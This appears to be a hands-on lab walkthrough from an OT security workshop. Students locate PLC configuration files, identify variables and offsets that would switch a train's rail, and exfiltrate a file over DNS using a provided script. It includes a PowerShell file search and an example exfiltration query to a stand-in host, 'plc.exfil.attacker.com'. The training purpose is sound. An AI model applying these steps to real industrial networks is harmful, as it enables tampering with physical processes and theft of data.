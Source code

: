 # DNS Exfiltration

## Objective

- Search for files containing valuable information about the OT environment. 
- Target Programmable Logic Controllers (`PLC`) configuration.
- Search for Rack, Slot and other Variables to modify the values within the PLC.
- Send this information to our hacker community so they can build a custom script to change values in the PLC.

## Step by Step Guide


<div class="purple">

Use the RDP connection to the jumpstation, to find sensitive data about the environment to exiltrate.
</div>

### What to look for?

1.	COPY the content of the `PLC_Template_X.txt` file, located on the resources server.

    - Location: `/cyberhell/docs`

    ![image](../../images/plc_template.jpg)


1. OPEN `Notepad` and PASTE the content of `PLC_Template_X.txt`

1. SAVE the Notepad document on the `Desktop` on the Jumpsation.

    - File name: `plc`
    - File format: `.txt`
    - Path: `C:\Users\kateX\Desktop`

1. Analyze the content of the file you just created, `plc.txt`

    ![image](../../images/plc_template_values.jpg)

----

### Search PLC information

<div class="purple">

Your mission: find the missing values and exfiltrate this file over DNS!
</div>



<div class="red">

Document your finding using the `plc.txt` files, as in the next activity you will exfiltrate this information!
</div>


1.	Search on the jumpstation for documents containing valuable information about the `PLC`s within their OT environment.

    Use the following PowerShell one-liner to search for all files with names that contain the word `plc` in the OT environment:
    
    ```powershell
    Get-ChildItem -Path "C:\" -Recurse -Force -ErrorAction SilentlyContinue | Where-Object { $_.Name -match "plc" } | Select-Object FullName
    ```

    <div class="purple">

    This may take some time, so don’t worry if nothing appears right away—just be patient.
    </div>

    ![image](../../images/find_plc_files.jpg)


1.	Open the different documents and look for valuable information about the PLC configuration.

    Open `PLC_DEVICE_CONFIG.pdf`

    - First, look for `PLC hardware` and `Firmware Version`.
    - Next, look for `Rack` and `Slot` values.

    ![image](../../images/plc_rack_slot_value.jpg)

    Open `PLC_VARIABLES.pdf`

    - Copy all variables including `data type`, `offset`, `start value`, etc.
    - Analyze the **offset** values.
    <br>
    
    <div class="purple">

    The `Offset` value consist of 2 parts, separated by a dot `.`
    - `Start offset` = the first value in the table
    - `Bit offset` = the second value in the table after the dot `.`

    Example: `0.1` = Start offset `0` and Bit offset `1`.
    </div>

    <br>

    **Identify the correct variable name and its associated offset values.**
   
    💡 **Tips**
    - Look for a variable name that seems like it was used for testing and may have been accidentally left behind by the PLC program developers.
    
    - Check the Train Setup. Which rail is the train currently using?
    **If you want the train to switch to a different rail, which value do you need to modify?**

    ![image](../../images/plc_variables.jpg)

----


### Exfiltrate `plc.txt` over DNS

<div class="red">

First, make sure you have saved the `plc.txt` file, containing all information about the OT environment, on KateX Desktop: `C:\Users\kateX\Desktop`.
</div>



1. Use the `Exfil.ps1.txt` script from the [Resource Server](http://resources.cyberhell.be/cyberhell/hacker/scripts/)

    `/cyberhell/hacker/scripts/Exfil.ps1.txt`

    ![image](../../images/exfil-script.jpg)

    - COPY the content of `Exfil.ps1.txt`
    - OPEN Notepad
    - PASTE the content of the script
    
    
    <div class="red">
    
    Change the `$numberOnly` variable (replace `X` with your student **number**, for example: `1`)
    </div>

1. **Save the file as:**

    - Location: **Desktop**
    - File name: `Exfil.ps1`
    - File type: `All files (.)`

    ![image](../../images/exfil-notepad.jpg)

   
    
1. Go back to the Powershell terminal and execute the `Exfil.ps1` script located on KateX Desktop.

    ```
    cd Desktop
    .\Exfil.ps1
    ```

    ![image](../../images/exfil-running.jpg)


1. **Your file has been successfully exfiltrated to our malicious DNS server.**

    ![image](../../images/exfil-success.jpg)


1. **Ask an instructor the verify**


    <div class="purple"> 
    
    Ask an instructor to reassemble the file to its original state and to verify the information you have exfiltrated.
    </div>

    ![image](../../images/reassabled.jpg)


----

### What happened?

In this activity, we used a **DNS exfiltration** technique to sneak data out of a network by hiding it inside DNS queries.

Normally, DNS is used to resolve domain names (like `google.com`) into IP addresses. But in this case, we used it to **send file data** out of the network — one small piece at a time.

The file we wanted to exfiltrate was **broken into small pieces**, called **chunks**. Each chunk is just a few bytes of data — **small enough to fit inside a DNS query**.

For example, a chunk might look like this:  
`626974733D636F6E666964656E7469616C2E646F63`

This chunk of data was then sent out using a **fake DNS request**, like:  
`626974733D...plc.exfil.attacker.com`

To the network, it just looks like someone is trying to resolve a very long domain name. But in reality, we're hiding data in the part before `.plc.exfil.attacker.com`.
    



